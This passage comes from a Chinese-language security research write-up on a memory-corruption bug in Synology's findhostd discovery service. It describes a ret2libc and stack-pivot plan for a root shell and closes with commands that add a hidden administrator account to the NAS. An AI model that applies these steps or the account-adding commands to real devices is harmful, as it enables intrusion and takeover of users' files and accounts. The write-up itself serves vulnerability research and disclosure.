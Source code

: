 另外，由于`Synology Assistant`客户端对协议数据包的处理过程与`findhostd`类似，因此其早期的版本也会受该漏洞影响。

### 漏洞利用

查看`findhostd`启用的缓解机制，如下，同时设备上的`ASLR`等级为`2`。其中，显示`"NX disabled"`，不知道是否和程序被混淆过有关。在设备上查看进程的内存地址空间映射，确实看到`[stack]`部分为`rwxp`。考虑到通用性，这里还是采用`ret2libc`的思路来获取设备的`root shell`。

```
$ checksec.exe --file ./findhostd
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

由于越界写发生在调用`snprintf()`时，故存在`'\x00'`截断的问题。通过调试发现，利用越界写覆盖栈上的返回地址后，在返回地址的不远处存在发送的原始数据包内容，因此可借助`stack pivot`将栈劫持到指向可控内容的地方，从而继续进行`rop`。

在实际进行利用的过程中，本来是想将`cmd`直接放在数据包中发送，然后定位到其在栈上的地址，再将其保存到`rdi`寄存器中，但由于未找到合适的`gadgets`，故采用将`cmd`写入`findhostd`进程的某个固定地址处的方式替代。同时，发现区域`0x00411000-0x00610000`不可写(正常应该包含`.bss`区域?)，而`.got.plt`区域可写，故将`cmd`写到了该区域。

```
root@NAS_6_1:/# cat /proc/`pidof findhostd`/maps
00400000-00411000 r-xp 00000000 00:00 0
00411000-00610000 ---p 00000000 00:00 0                                 # no writable permission 
00610000-00611000 r-xp 00000000 00:00 0
00611000-00637000 rwxp 00000000 00:00 0                       [heap]
00800000-00801000 rwxp 00000000 00:00 0
...
7ffffffde000-7ffffffff000 rwxp 00000000 00:00 0               [stack]   # executable stack?
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0       [vsyscall]
```

最终效果如下。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/d0e6cebf-dcf1-464b-b4c8-e3d12a693eda.gif?raw=true)

### One More Thing

获取到设备的`root shell`后，相当于获取了设备的控制权，比如可以查看用户共享文件夹中的文件等。但是如何登录设备的`Web`管理界面呢？这里给出一种简单的方案：利用`synouser`和`synogroup`命令增加`1`个管理员用户，然后使用新增的用户进行登录即可。当然，`synouser`命令支持直接更改现有用户的密码，且无需原密码，但改了之后正常用户就不知道其密码了 :(

```
# 增加一个用户名为cq, 密码为cq674350529的用户
$ synouser --add cq cq674350529 "test admin" 0 "" 31
# 查看当前管理员组中的现有用户
$ synogroup --get administrators
# 将新增加的用户cq添加到管理员组中，xxx为当前管理员组中的现有用户
$ synogroup --member administrators xxx xxx cq
# 之后, 便可利用该账户登录设备的Web管理界面
# 删除新增加的用户
$ synouser --del cq
```
